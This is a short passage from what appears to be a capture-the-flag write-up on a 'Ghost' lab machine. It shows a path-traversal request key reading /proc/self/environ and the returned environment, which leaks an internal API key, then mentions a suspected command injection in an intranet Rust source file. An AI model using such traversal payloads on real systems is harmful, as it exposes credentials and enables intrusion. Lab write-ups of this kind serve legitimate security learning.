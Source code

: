 ```
{"posts":[<SNIP>"extra":{"../../../../../../../proc/self/environ":"HOSTNAME=26ae7990f3dd\u0000database__debug=false\u0000YARN_VERSION=1.22.19\u0000PWD=/var/lib/ghost\u0000NODE_ENV=production\u0000database__connection__filename=content/data/ghost.db\u0000HOME=/home/node\u0000database__client=sqlite3\u0000url=http://ghost.htb\u0000DEV_INTRANET_KEY=!@yqr!X2kxmQ.@Xe\<SNIP>
```
Success! Now we have the internal API key.


## Intranet Repository – Command Execution Discovery

With the key in hand, I explored the second repo: intranet.
There, I came across a potential command injection vulnerability in:
`backend/src/api/dev/scan.rs`

![Screenshot](Ghost12.png)
